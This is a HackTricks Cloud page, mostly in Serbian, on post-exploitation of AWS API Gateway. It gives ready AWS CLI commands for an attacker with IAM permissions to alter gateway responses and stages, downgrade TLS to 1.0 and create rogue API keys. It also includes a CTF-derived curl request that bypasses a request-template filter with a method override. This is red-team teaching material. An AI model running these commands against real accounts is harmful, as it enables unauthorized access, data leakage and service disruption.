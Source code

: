 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

For more information check:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Možete kreirati endpoint na [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) sa servisom `com.amazonaws.us-east-1.execute-api`, izložiti endpoint u mreži kojoj imate pristup (potencijalno putem EC2 mašine) i dodeliti sigurnosnu grupu koja omogućava sve veze.\
Zatim, sa EC2 mašine moći ćete da pristupite endpoint-u i tako pozovete gateway API koji prethodno nije bio izložen.

### Bypass Request body passthrough

Ova tehnika je pronađena u [**ovoj CTF analizi**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Kao što je naznačeno u [**AWS dokumentaciji**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) u sekciji `PassthroughBehavior`, podrazumevano, vrednost **`WHEN_NO_MATCH`**, prilikom provere **Content-Type** header-a zahteva, će proslediti zahtev na backend bez transformacije.

Stoga, u CTF-u je API Gateway imao integracioni šablon koji je **sprečavao da se zastavica exfiltrira** u odgovoru kada je zahtev poslat sa `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Međutim, slanje zahteva sa **`Content-type: text/json`** bi sprečilo taj filter.

Na kraju, pošto je API Gateway dozvoljavao samo `Get` i `Options`, bilo je moguće poslati proizvoljnu dynamoDB upit bez ikakvih ograničenja slanjem POST zahteva sa upitom u telu i korišćenjem zaglavlja `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

U sekciji **Enumeration** možete videti kako da **dobijete plan korišćenja** ključeva. Ako imate ključ i on je **ograničen** na X korišćenja **mesečno**, možete **samo da ga koristite i izazovete DoS**.

**API Key** samo treba da bude **uključen** unutar **HTTP header-a** pod nazivom **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` može **modifikovati postojeći Gateway Response da uključi prilagođene header-e ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Curjenje osetljivih informacija, izvršavanje zlonamernih skripti ili neovlašćen pristup API resursima.

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateStage` i `apigateway:CreateDeployment` može **modifikovati postojeću API Gateway fazu da preusmeri saobraćaj na drugu fazu ili promeni postavke keširanja kako bi dobio neovlašćen pristup keširanim podacima**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Neovlašćen pristup keširanim podacima, ometanje ili presretanje API saobraćaja.

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` može **modifikovati odgovor metode postojećeg API Gateway REST API metoda da uključuje prilagođene zaglavlja ili šablone odgovora koji otkrivaju osetljive informacije ili izvršavaju zlonamerne skripte**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Curjenje osetljivih informacija, izvršavanje malicioznih skripti ili neovlašćen pristup API resursima.

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Napadač sa dozvolama `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` može **modifikovati podešavanja API Gateway REST API-a da onemogući logovanje ili promeni minimalnu TLS verziju, potencijalno slabeći bezbednost API-a**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencijalni uticaj**: Slabljenje bezbednosti API-ja, što potencijalno omogućava neovlašćen pristup ili izlaganje osetljivih informacija.

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Napadač sa dozvolama `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, i `apigateway:CreateUsagePlanKey` može **kreirati nove API ključeve, povezati ih sa planovima korišćenja, a zatim koristiti ove ključeve za neovlašćen pristup API-jima**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencijalni uticaj**: Neovlašćen pristup API resursima, zaobilaženje bezbednosnih kontrola.

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
